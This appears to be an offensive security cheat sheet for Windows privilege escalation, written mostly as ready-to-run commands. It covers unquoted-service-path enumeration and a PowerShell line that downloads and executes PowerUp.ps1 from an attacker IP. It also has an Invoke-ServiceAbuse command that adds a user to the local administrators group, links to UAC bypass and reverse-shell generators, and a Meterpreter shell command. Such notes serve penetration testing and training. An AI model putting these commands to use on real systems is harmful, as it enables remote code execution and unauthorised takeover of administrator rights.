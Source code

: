 ## Windows

[[Unquoted Service Path]](https://medium.com/@SumitVerma101/windows-privilege-escalation-part-1-unquoted-service-path-c7a011a8d8ae) 

`wmic service get name,pathname,displayname,startmode | findstr /i auto | findstr /i /v "C:\Windows\\" | findstr /i /v """ `

Unquoted Service Path: See if user has permissions to launch found executable...

`sc stop SERVICE`

`sc start SERVICE`

Unquoted Service Path: See if you can (M)odify designated folder

`icacls "FOLDERNAME"`

### Power Shell Priv Escalation

1. Create HTTP Server to host PowerUp.ps1

2. iex (New-Object Net.WebClient).DownloadString('http://10.10.15.3/PowerUp.ps1')
 
3. Invoke-AllChecks

Add your user to Admins group, go UAC Bypass from there.
4. Invoke-ServiceAbuse -Name AppReadiness -Command "net localgroup administrators bob /add"


[[Bypass Uac]](https://github.com/hfiref0x/UACME)
[[UACME Hackersploit video]](https://www.youtube.com/watch?v=RXX0FHM9SEk)

# All
Generate Payloads

https://www.revshells.com/

## Meterpreter

create shell and check gcc version

`execute -f /bin/sh -i -c`

`gcc --version`
